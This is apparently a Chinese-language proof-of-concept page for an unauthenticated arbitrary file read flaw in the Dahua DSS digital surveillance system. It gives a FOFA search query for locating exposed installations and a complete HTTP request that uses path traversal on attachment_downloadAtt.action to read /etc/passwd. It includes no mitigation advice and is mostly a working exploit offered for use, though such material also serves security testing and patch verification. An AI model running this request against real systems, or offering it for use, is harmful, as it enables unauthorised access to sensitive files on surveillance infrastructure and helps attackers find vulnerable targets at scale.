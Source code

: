 # 大华DSS数字监控系统attachment_downloadAtt.action任意文件读取漏洞

大华DSS数字监控系统 attachment_downloadByUrlAtt.action接口存在任意文件读取漏洞，未经身份验证的远程攻击者 可以利用此漏洞获取系统内部敏感文件信息，使系统处于极不安全的状态。

## fofa

```java
app="dahua-DSS"
```

## poc

```javascript
GET /portal/attachment_downloadAtt.action?filePath=../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
```

![image-20241211211500395](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412112115457.png)